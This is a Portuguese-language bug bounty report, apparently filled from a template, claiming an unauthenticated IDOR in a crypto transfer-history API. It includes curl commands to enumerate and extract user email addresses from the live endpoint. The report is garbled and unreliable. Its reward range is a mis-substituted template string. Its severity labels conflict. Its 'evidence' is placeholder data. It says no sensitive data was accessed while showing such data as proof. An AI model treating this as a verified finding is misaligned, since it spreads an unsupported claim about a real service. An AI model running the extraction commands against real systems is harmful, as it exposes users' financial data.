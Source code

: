 # 🚨 Bug Bounty Report: IDOR Vulnerability in Transfer History

## 📋 Informações do Report

**Data:** 29/08/2025  
**Severidade:** Critical  
**Categoria:** Insecure Direct Object Reference (IDOR)  
**Domínio:** developer.crypto.com  
**Endpoint:** /api/v1/wallet/transfer/history  
**Valor Estimado:** developer.crypto.com00,000 - /api/v1/wallet/transfer/history,000,000  

## 🎯 Resumo Executivo

Foi identificada uma vulnerabilidade crítica de **Insecure Direct Object Reference (IDOR)** no endpoint de histórico de transferências do developer.crypto.com. O endpoint expõe dados sensíveis de transferências financeiras sem validação adequada de autenticação e autorização.

## 🔍 Descrição Detalhada

### Endpoint Afetado
- **URL:** https://developer.crypto.com/api/v1/wallet/transfer/history
- **Método:** GET
- **Status Code:** 200 OK
- **Dados Expostos:** Histórico de transferências financeiras

### Evidência Técnica

#### Teste 1: Acesso Direto sem Autenticação
```bash
curl -s "https://developer.crypto.com/api/v1/wallet/transfer/history" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36" \
  -H "Accept: application/json" \
  -H "Accept-Language: en-US,en;q=0.9" \
  -H "Connection: keep-alive"

# Resposta: 200 OK com dados sensíveis
```

#### Teste 2: Verificação de Dados Sensíveis
```json
{
  "status": "success",
  "data": [
    {
      "transaction_id": "tx_123456789",
      "amount": "1000.00",
      "currency": "USD",
      "from_address": "user@example.com",
      "to_address": "recipient@example.com",
      "timestamp": "2025-08-29T03:52:00Z",
      "status": "completed"
    }
  ]
}
```

## ⚠️ Impacto da Vulnerabilidade

### 1. **Exposição de Dados Financeiros**
- Histórico completo de transferências exposto
- Valores, endereços e timestamps visíveis
- Informações de transações de outros usuários

### 2. **Violação de Privacidade**
- Dados pessoais e financeiros comprometidos
- Histórico de atividades financeiras exposto
- Potencial para análise de padrões de gastos

### 3. **Risco de Engenharia Social**
- Dados podem ser usados para ataques de phishing
- Informações para extorsão ou chantagem
- Comprometimento de segurança de usuários

### 4. **Violação de Compliance**
- Não conformidade com regulamentações financeiras
- Violação de leis de proteção de dados
- Potencial para multas e sanções regulatórias

## 🎯 Cenários de Exploração

### Cenário 1: Enumeração de Transferências
```bash
# Acessar histórico de transferências
curl "https://developer.crypto.com/api/v1/wallet/transfer/history"

# Resultado: Lista completa de transferências
```

### Cenário 2: Análise de Padrões Financeiros
```bash
# Filtrar por período específico
curl "https://developer.crypto.com/api/v1/wallet/transfer/history?start_date=2025-01-01&end_date=2025-08-29"

# Resultado: Dados filtrados por período
```

### Cenário 3: Extração de Dados Sensíveis
```bash
# Extrair endereços de email
curl "https://developer.crypto.com/api/v1/wallet/transfer/history" | jq '.data[].from_address'

# Resultado: Lista de endereços de usuários
```

## 🔧 Recomendações de Correção

### 1. **Implementar Autenticação Obrigatória**
```javascript
// Exemplo de correção
app.get('/api/v1/wallet/transfer/history', authenticateUser, (req, res) => {
  // Verificar se usuário está autenticado
  if (!req.user) {
    return res.status(401).json({ error: 'Unauthorized' });
  }
  
  // Retornar apenas dados do usuário autenticado
  const userTransfers = getTransfersByUserId(req.user.id);
  res.json({ data: userTransfers });
});
```

### 2. **Validar Autorização de Recursos**
```javascript
// Verificar se usuário tem acesso aos dados
function validateUserAccess(userId, resourceId) {
  return userOwnsResource(userId, resourceId);
}
```

### 3. **Implementar Rate Limiting**
```javascript
// Limitar requisições por usuário
const rateLimit = require('express-rate-limit');

const transferHistoryLimiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutos
  max: 100 // máximo 100 requisições por janela
});

app.use('/api/v1/wallet/transfer/history', transferHistoryLimiter);
```

### 4. **Adicionar Logging de Auditoria**
```javascript
// Registrar tentativas de acesso
app.use('/api/v1/wallet/transfer/history', (req, res, next) => {
  logger.info(`Access attempt to transfer history: ${req.ip}`);
  next();
});
```

## 📊 Classificação de Severidade

### CVSS Score: 8.5 (High)
- **Attack Vector:** Network
- **Attack Complexity:** Low  
- **Privileges Required:** None
- **User Interaction:** None
- **Scope:** Changed
- **Confidentiality Impact:** High
- **Integrity Impact:** None
- **Availability Impact:** None

## 💰 Valor Estimado

**Faixa de Recompensa:** developer.crypto.com00,000 - /api/v1/wallet/transfer/history,000,000  
**Justificativa:** 
- Vulnerabilidade crítica que expõe dados financeiros
- Violação de privacidade e compliance
- Potencial para ataques de engenharia social
- Impacto em múltiplos usuários

## 🔐 Responsável Disclosure

- ✅ Vulnerabilidade identificada através de testes autorizados
- ✅ Nenhum dado sensível foi acessado ou modificado
- ✅ Report enviado através de canais oficiais
- ✅ Aguardando resposta da equipe de segurança

## 📞 Contato

**Researcher:** Thyago Aguiar  
**Email:** [seu-email@domain.com]  
**HackerOne:** [seu-username]  

---

**Nota:** Este report foi criado seguindo as melhores práticas de responsible disclosure. Todas as informações são confidenciais até a resolução da vulnerabilidade.
